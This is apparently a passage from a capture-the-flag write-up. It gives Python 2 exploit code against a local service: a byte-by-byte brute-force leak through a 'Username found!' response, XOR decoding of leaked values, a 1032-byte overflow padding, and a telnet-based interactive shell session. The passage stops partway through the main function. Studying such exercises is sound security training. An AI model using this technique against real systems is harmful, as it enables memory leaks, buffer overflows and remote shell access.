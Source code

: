 ```python

sock = socket.socket()
sock.connect(SERVER)
sock.recv(4096)  # server hello
sock.send(payload)
#interactive mode
t = Telnet()
t.sock = sock
print "Starting interactive session:"
t.interact()
sock.close()
```
Note: to use an interactive mode for the shell I used `from telnetlib import Telnet` to make it easier to interact with the server once I have shell.

Final script:
```python
import socket
import struct
from telnetlib import Telnet

Ds = 0x0d0d0d0d0d0d0d0d

def p64(s):
    return struct.pack("Q", s)

def unpack(s):
    return struct.unpack("Q", s)[0]

SERVER = ("localhost", 1337)

def send_payload(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(SERVER)
    s.recv(4096)
    s.send(p)

    res = False
    try:
        line = s.recv(4096)
        res = "Username found!" in line

    finally:
        s.close()

    return res

def leak_next_byte(prefix):
    for test_byte in [chr(t) for t in range(256)]:
        if send_payload(prefix + test_byte):
            print "Found:", hex(ord(test_byte))
            return prefix + test_byte

def leak_n_bytes(prefix, n):
    payload = prefix
    for i in range(n):
        payload = leak_next_byte(payload)
    return unpack(payload[-8:]) ^ Ds


def main():
    payload = "davide"
    payload += "B" * (1032 - len(payload))

```